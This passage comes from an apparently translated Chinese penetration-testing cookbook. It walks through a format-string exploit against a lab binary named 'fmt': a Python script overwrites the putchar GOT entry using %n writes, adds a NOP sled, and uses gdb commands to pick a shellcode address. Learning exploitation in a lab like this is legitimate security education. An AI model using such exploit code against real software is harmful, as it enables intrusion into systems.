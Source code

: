 ![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-cb/img/00122.jpeg)

现在`putchar@got.plt`指针的值为`0xddccbbaa`，这是我们计划写入其中的值。

1.  现在我们可以创建一个模式并将其插入到利用中。这将有助于确定我们可以插入我们的 shell 代码的位置。因此，使用模式更新我们的利用。这将更新脚本如下：

```py
#!/usr/bin/python  
w1 = '\x48\x97\x04\x08JUNK' 
w2 = '\x49\x97\x04\x08JUNK' 
w3 = '\x4a\x97\x04\x08JUNK' 
w4 = '\x4b\x97\x04\x08JUNK'  
b1 = 0xaa 
b2 = 0xbb 
b3 = 0xcc 
b4 = 0xdd  
n1 = 256 + b1 - 0x2e 
n2 = 256*2 + b2 - n1 - 0x2e 
n3 = 256*3 + b3 - n1 - n2 - 0x2e 
n4 = 256*4 + b4 - n1 - n2 - n3 - 0x2e  
form = '%x%x%' + str(n1) + 'x%n%' + str(n2) 
form += 'x%n%' + str(n3) + 'x%n%' + str(n4) + 'x%n'  
nopsled = '\x90' * 100 
pattern = '\xcc' * 250 
print w1 + w2 + w3 + w4 + form + nopsled + pattern 
```

1.  现在使用有效载荷在调试器中运行应用程序，并检查 ESP 寄存器后的`200`个字节：

```py
gdb ./fmt
pwndbg> break * main + 64
pwndbg> run $(./exploit.py)
pwndbg> x/4x 0x08049748
pwndbg> x/200x $esp  
```

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-pentest-cb/img/00123.jpeg)

现在我们可以在堆栈上看到 NOP 滑梯。我们可以选择 NOP 滑梯中间的地址来添加 shell 代码。在这里我们可以选择`0xbffff110`。

1.  现在我们必须用真实地址替换`0xddccbbaa`，这个地址是我们从 NOP sled 中选择的。为此，用正确的字节更新`exploit.py`：

```py
b1 = 0x10
b2 = 0xf1
b3 = 0xff
b4 = 0xbf  
```

1.  现在用调试器运行应用程序并检查内存位置：

```py
gdb ./fmt
pwndbg> break * main + 64
pwndbg> run $(./exploit.py)
pwndbg> x/4x 0x08049748  
```
